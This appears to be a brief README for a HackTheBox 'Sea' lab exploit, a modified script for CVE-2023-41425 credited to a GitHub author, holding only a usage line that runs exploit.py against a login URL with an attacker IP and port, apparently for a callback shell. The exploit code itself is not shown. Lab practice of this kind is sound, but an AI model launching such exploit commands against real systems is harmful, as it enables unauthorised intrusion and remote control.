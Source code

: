 # HackTheBox Sea

The exploit is a modified script of `CVE-2023-41425` written by <https://github.com/prodigiousMind/CVE-2023-41425>

## Usage

```bash
python exploit.py http://sea.htb/loginURL 10.10.16.62 9001
```
